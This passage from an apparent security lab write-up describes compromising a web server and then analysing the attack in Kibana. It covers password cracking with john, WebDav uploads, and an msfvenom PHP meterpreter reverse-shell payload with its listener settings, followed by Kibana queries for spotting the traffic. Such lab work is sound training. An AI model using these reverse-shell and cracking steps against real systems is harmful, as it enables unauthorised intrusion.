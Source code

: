 - Running this command was able to enumerate the password for ashton's account.
- Using the credentials found we were able to find another file on how to connect to the Web Server via WebDav.

### Connecting to Server via WebDav

- WebDav is an extension of the hypertext protocol that allows clients to perform remote Web content authoring operation. Knowing this gives us the ability to add changes to the Web server.

- With the given hash and username associated with the hash we are easily able to crack the hash with `john` or by using crackstation.net.

### Upload reverse shell to server

- With access to WebDav we are able to add files remotely to the Web Server. We do this by creating a payload with `msfvenom` on our Kali machine and uploading them to the shared directory.

- Msfvenom breakdown:
   - `msfvenom` - command
   - `-p php/meterpreter/reverse_tcp` - select payload
   - `lhost=192.168.1.90` - set local host to kali machine
   - `lport=4444` - set local port to 4444
   - `>> shell.php` - output to shell.php

- We now setup a listener with `msfconsole` so when the file is clicked on threw the website, the attacker is able to open a shell on the victim who clicked the shell.php file.

# Incident Analysis with Kibana

## Creating a Dashboard

- In the Azure Jumpbox, open a brower and navigate to `http://192.168.1.100`. After navigating to the website, click on **Create dashboard** in the upper left hand side.

- We now need to add reports to the dashboard. We do this by clicking **Add an existing**. Below are the following reports that I added to the dashboard.
  - HTTP status codes for the top queries [Packetbeat] ECS
  - Top 10 HTTP requests [Packetbeat] ECS
  - Network Traffic Between Hosts [Packetbeat Flows] ECS
  - Top Hosts Creating Traffic [Packetbeat Flows] ECS
  - Connections over time [Packetbeat Flows] ECS
  - HTTP error codes [Packetbeat] ECS
  - Errors vs successful transactions [Packetbeat] ECS
  - HTTP Transactions [Packetbeat] ECS

## Using Queries to Visualize Data

### Signs of a Brute Force

- We now need to query for the offensive traffic.
  - Query: `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105`